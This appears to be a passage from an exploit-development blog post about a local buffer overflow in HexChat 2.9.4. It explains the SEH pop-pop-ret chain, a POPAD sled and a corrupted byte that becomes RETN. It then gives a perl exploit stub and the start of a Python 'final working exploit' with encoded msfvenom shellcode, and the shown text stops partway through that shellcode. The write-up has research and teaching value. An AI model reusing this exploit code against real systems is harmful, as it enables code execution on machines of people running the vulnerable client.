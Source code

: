 I ran the exploit stub, followed the pop-pop-ret and then the jump, and found myself in memory that I controlled. That was the good news. Unfortunately, the bad news was that I only had a very limited amount of space to put any payload (43 bytes). My first thought was to use an egghunter, however egghunters had non-ascii characters in them, and when encoded properly, were well over 43 bytes long. This left me thinking for a good while.

After a couple days of thinking, I thought about using a fairly non-traditional method to exploit this. In the stack, way down, was a pointer to the beginning of the buffer I sent into HexChat. I was able to use the [POPAD instruction](https://en.wikipedia.org/wiki/X86_instruction_listings) to get rid of several ESP values at once, since it's Opcode was an ASCII character. By combining 38 POPAD instructions, I was able to get to the pointer in memory, and still have 5 bytes of memory to try to load it. My exploit-stub ended up looking like this:

```
mandreko$ perl -e 'print "A"x13336 . "\x4c\x4c\x77\x21" . "\x63\x64\x62\x68" . "C"x29 . "\x61"x38 . "C"x11589'
```

When I ran it through the debugger, it worked out perfectly.

{{% figure class="img-responsive" src="/img/hexchat_after_popad.png" %}}

## Finding the jump via corruption

With only 5 bytes remaining, and ASCII encoding requirements, I pondered a bit. I couldn't see any way to get a "JMP ESP". I found a JMP ESP in one of the loaded libraries, but I didn't have enough space to push it into memory and then RETN. For some reason, during testing, I found that some of my non-ASCII characters were bad-characters, and would get translated to RETN statements. I thought perhaps I could use a "PUSH ESP" instruction which was ASCII, and then use a bad-character to convert into a "RETN" instruction, since it typically would not be ASCII (\xc3). It ended up working. I put a "\xE9", and it converted it to "RETN" and then an "\x88". Since I'd never be hitting the "\x88" I figured this would work. I tried it, and miraculously it did! Using a corrupted character actually let it jump!

{{% figure class="img-responsive" src="/img/hexchat_push_esp.png" %}}

After taking the "RETN", it placed me in an area with thousands of bytes for shellcode.

{{% figure class="img-responsive" src="/img/hexchat_after_push_esp.png" %}}

From this point, it was just as easy as inserting some alpha-numeric encoded shellcode, and changing some lengths of junk strings.

## The final working exploit

```
#!/usr/bin/python
# HexChat 2.9.4 Local Exploit
# Bug found by Jules Carter < @iMulitia >
# Exploit by Matt "hostess" Andreko < mandreko [at] accuvant.com >
# http://www.mattandreko.com/2013/04/buffer-overflow-in-hexchat-294.html
junk1 = "B"*30
shellcode = (
# msfvenom -p windows/messagebox EXITFUNC=process BufferRegister=ESP -e x86/alpha_mixed -f c
"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
"\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b"
"\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58"
"\x50\x38\x41\x42\x75\x4a\x49\x78\x59\x68\x6b\x6d\x4b\x4b\x69"
"\x44\x34\x64\x64\x59\x64\x74\x71\x78\x52\x6c\x72\x33\x47\x34"
"\x71\x78\x49\x42\x44\x4e\x6b\x50\x71\x50\x30\x4e\x6b\x64\x36"
"\x54\x4c\x4c\x4b\x44\x36\x77\x6c\x4c\x4b\x33\x76\x77\x78\x4c"
"\x4b\x73\x4e\x51\x30\x4e\x6b\x75\x66\x56\x58\x72\x6f\x72\x38"
"\x51\x65\x68\x73\x43\x69\x37\x71\x38\x51\x39\x6f\x58\x61\x73"
"\x50\x4e\x6b\x30\x6c\x36\x44\x77\x54\x6c\x4b\x42\x65\x75\x6c"
"\x6e\x6b\x73\x64\x36\x48\x31\x68\x46\x61\x6a\x4a\x4e\x6b\x52"
"\x6a\x66\x78\x6e\x6b\x73\x6a\x57\x50\x43\x31\x7a\x4b\x6d\x33"
"\x34\x74\x42\x69\x6c\x4b\x47\x44\x4c\x4b\x67\x71\x48\x6e\x74"
```